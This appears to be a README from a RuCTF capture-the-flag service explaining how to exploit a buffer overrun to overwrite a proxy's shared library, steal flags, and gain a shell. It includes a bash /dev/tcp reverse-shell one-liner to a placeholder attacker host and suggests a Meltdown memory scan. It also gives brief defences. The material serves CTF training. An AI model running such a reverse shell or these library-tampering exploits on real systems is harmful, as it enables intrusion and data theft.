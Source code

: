 # Sandbox

The service consists of a backend binary and two proxies that run in separate docker containers.

## How to attack

### First proxy (:16780)

There is a library, libinterface.so, that contains code responsible for interaction with the backend. All the following sploits show different ways to tamper with that library.

In order to do so you can exploit a buffer overrun in the parse_uuid function.

It allows you to overwrite fileno used when communicating with the backend and thus overwrite a 32-byte portion of libinterface.so on the victim system. 
By repeating this attack it is possible to overwrite the entire library.

See [upload_so.py](upload_so.py) for implementation.

#### Sploit #1

The easiest way to start getting flags is to change host:port used in the AddUnit function to the address of the attacker's machine.
This way the attacker will receive all the new flags, but the service will be down for the victim.

[Example code](fwd1/)


#### Sploit #2:

A more complicated approach would be to duplicate flags to the attackers machine, leaving the victim's service fully functional.

Also it's better to hook the GetUnit function instead of AddUnit, because it allows to access old flags as well.

The only problem is that the modified function must have the same byte-size as the original one, so some byte-juggling may be required to make it work.

[Example code](fwd2/)


#### Sploit #3:

The third and the most universal approach is to call system() on the victim machine.

In order to do so you have to do some calculations with addresses and produce a patch as described in [shell.asm](shell/shell.asm).

Then you may fire up a reverse shell, for example:  
`bash -c "bash -i >& /dev/tcp/<attacker-ip>/<attacker-port> 0>&1 &" &`

And then do what you wish. For example, upload another patched .so, without the limit on the size of functions.

#### Bonus (all sploits)

In order to allow the pwned service to restart correctly, you must pad your version of libinterface.so with some garbage so that it's hash matches the hash of the original file (it's a simple 4-byte xor).

### Second proxy (:16781)

The second proxy has no bugs (known to us).

Just hack the first proxy to gain a shell on the victim system and execute the Meltdown attack.   
You must scan the entire physical memory to find the flag storage and then read it all :)

## How to defend

1. Replace proxy #1 with proxy #2.
2. Turn off Meltdown support in kernel boot options.  

## Update
Sandbox was hacked on second day after RuCTF by v0s. He used a ROP technique:
https://gist.github.com/v0s/1933e025dc61c2dfe32a61f79b959c11

